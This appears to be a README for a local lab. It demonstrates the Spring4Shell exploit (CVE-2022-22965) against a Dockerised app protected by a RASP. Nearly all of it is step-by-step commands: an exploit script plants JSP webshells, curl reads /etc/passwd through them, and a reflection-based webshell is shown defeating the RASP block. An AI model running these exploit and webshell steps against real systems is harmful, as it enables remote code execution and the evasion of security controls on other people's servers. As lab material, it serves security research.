


1. mvn clean package
2. cd ..
3. docker build . -t cve-2022-22965-exploit-with-rasp-pb -f bypassing-using-reflection-abuse/Dockerfile
4. docker run -p 8080:8080 -p 8000:8000 cve-2022-22965-exploit-with-rasp-pb
5. curl http://localhost:8080/exploit/greeting
6. python3 -m pip install -r requirements.txt
7. python3 exploit.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="basic" 
8. curl "http://localhost:8080/basic.jsp?cmd=cat%20/etc/passwd" and see that we are blocked

9. Now deploy another webshell that uses reflection;
`   python3 exploit.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="reflection" 
`
10. curl "http://localhost:8080/reflection.jsp?cmd=cat%20/etc/passwd" and enjoy the bypass
 